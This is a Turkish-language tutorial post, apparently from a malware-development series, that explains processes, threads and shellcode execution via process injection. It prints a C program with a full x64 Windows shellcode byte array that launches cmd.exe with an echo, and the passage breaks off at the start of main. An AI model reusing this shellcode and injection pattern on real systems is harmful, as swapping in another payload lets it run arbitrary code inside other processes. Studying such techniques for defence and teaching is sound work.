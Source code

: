 > <i> "Bir Process, en basit ifadeyle, yürütülmekte olan bir programdır. Process bağlamında bir veya daha fazla thread çalışır. Thread ise işletim sisteminin işlemci zamanını tahsis ettiği temel birimdir. Bir Thread, başka bir thread tarafından yürütülmekte olan kısımlar da dahil olmak üzere, işlem kodunun herhangi bir bölümünü yürütebilir." </i>

- Microsoft Learn - Process and Threads

Process’lere göre daha hızlı ve hafif olan Thread’ler, kabaca tanımıyla İşletim Sisteminde bağımsız olarak çalışan birimlerdir. Herhangi bir process içerisinde bir veya daha fazla thread olabilir. Dolayasıyla Process’ler, Thread’ler sayesinde birden fazla işi aynı anda yapabilir.

Thread aracılığıyla Process’lerin birden fazla işi aynı anda yapılabileceğinden bahsettim. Bunu biraz daha detaylandıralım. Örneğin bir web tarayacısı düşünün. Bu web tarayıcısının bir thread ile kullanıcının arayüzle etkileşimi yönetilirken diğer thread’ler ile arka planda web sayfaları yüklemek gibi işlemleri aynı anda gerçekleştirebilir. Örnek açısından aşağıda Windows 11 ortamında Task Manager aracılığıyla Firefox Process'in altındaki Thread listesi gösterilmiştir: <br/> <br/>

![Task Manager aracılığıyla görüntülenen Firefox Process’in Thread’leri (17 tane)](https://miro.medium.com/v2/resize:fit:720/format:webp/1*RVtaQpjRT3f5XXv_5dU5ig.png)

## Shellcode Execution Nedir?

Shellcode Execution genellikle process injection teknikleriyle ilişkilidir. Saldırgan, shellcode'u bir hedef sürecin belleğine enjekte ettikten sonra, bu kodun çalıştırılmasını sağlayarak hedef sistemde kontrol elde edebilir. 

## Kod 

Github üzerinde paylaştığım örnek kod parçasına [buradan](https://github.com/0xbekoo/maldev/blob/main/C/Shellcode-Injection/main.c) erişebilirsiniz.

```c
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>

/* 
    cmd /K "echo Shellcode Injection with bekoo"
*/
char Shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x4b\x20\x22\x65"
"\x63\x68\x6f\x20\x53\x68\x65\x6c\x6c\x63\x6f\x64\x65\x20"
"\x49\x6e\x6a\x65\x63\x74\x69\x6f\x6e\x20\x77\x69\x74\x68"
"\x20\x62\x65\x6b\x6f\x6f\x22\x00";

int main(int argc, char* argv[]) {
    if (argc < 2) {
```